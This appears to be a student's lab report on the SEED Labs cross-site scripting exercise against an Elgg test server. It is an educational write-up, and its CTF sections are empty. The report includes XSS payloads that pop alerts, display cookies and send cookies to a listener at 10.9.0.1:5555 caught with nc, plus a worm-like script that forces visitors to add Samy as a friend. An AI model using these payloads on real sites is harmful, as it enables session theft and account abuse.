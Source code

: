 # Work performed during the week #10

## CTF

### Goal
- 

### Challenge 1

- 

### Challenge 2

- 

## SeedLab

### Task 1

- For the task 1, we choose to login with the user Alice. After we logged in we went to edit profile and in the input for brief discreption we add the script ``<script>alert('XSS');</script>``.

- This way, every time the brief discreption field is asked for a web page, it will execute the alert we inserted. This justifies why even in the list of users the alert is triggered. Because this list not only the users, but the brief discreption of each user.

### Task 2

- Still using user Alice, we went to edit profile and in the input for brief discreption we add another script. Instead of the script ``<script>alert('XSS');</script>`` we use the script ``<script>alert(document.cookie);</script>``, so we can now print the cookies.

- The result of the alert is ``pvisitor=a6b4dccd-99d9-4a92-a50a-9a850b3592ab; Elgg=i0mr1o4tlhlimds4ncd0da5nb7``.

### Task 3

- In this task, instead of only the user can see the cookies, we want to send an HTTP request with the cookies appended to the request in order so see them.
- In order to do that we user a script that do that, `` <script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script> ``.
- This sript inserts the img tag, the browser tries to load the image from the URL in the src field, this results in an HTTP GET request sent to our machine, with the cookies to the port 5555 of our machine (with IP address 10.9.0.1).
- We use the program ``nc -lknv 5555``, to have a TCP server that listens for a connection on the specified port (5555).
- This program will print out the HTTP request with the cookies of the client.

### Task 4

- In this task, we will use a script that adds Samy as a friend to any other user that visits Samy’s page.
- First we find out how a legitimate user adds a friend in Elgg.
- We use Firefox’s ``HTTP inspection tool`` to help us get what are sent to the server when a user adds a friend.
- Inspectioning the contents of the HTTP GET request that was sent when the add friend button was clicked, we identify all the parameters in the request.
- Finding that the data is attached to the URL ``http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1642154629&__elgg_token=cjBSuLpxRMRNZH0Uoq_zug&__elgg_ts=1642154629&__elgg_token=cjBSuLpxRMRNZH0Uoq_zug``.
- The parameters are placed after the URL by``?`` and separated by ``&``, that parameters being, first ``friend=59`` and the variables ``__elgg_ts``, ``__elgg_token``. 
- The script create a GET request to the URL ``http://www.seed-server.com/action/friends/add`` with the parameters ``friend=59``, ``'__elgg_ts='+elgg.security.token.__elgg_ts;``, ``'__elgg_token='+elgg.security.token.__elgg_token;``.

```
<script type='text/javascript'> 
    window.onload = function () {
        var Ajax=null;
        var ts='&__elgg_ts='+elgg.security.token.__elgg_ts;
        var token='&__elgg_token='+elgg.security.token.__elgg_token;
        var sendurl='http://www.seed-server.com/action/friends/add?friend=59'+ts+token;
        Ajax=new XMLHttpRequest();
        Ajax.open('GET', sendurl, true);
        Ajax.send();
    }
</script>
```

- Sending out the same HTTP request as add-friend HTTP request.
- We placed the script in the ``About Me`` field of Samy’s profile page, after we clicking on option ``Edit HTML`` to enable Text mode.
- Now any other user that visits Samy’s page, will add Samy as a friend.







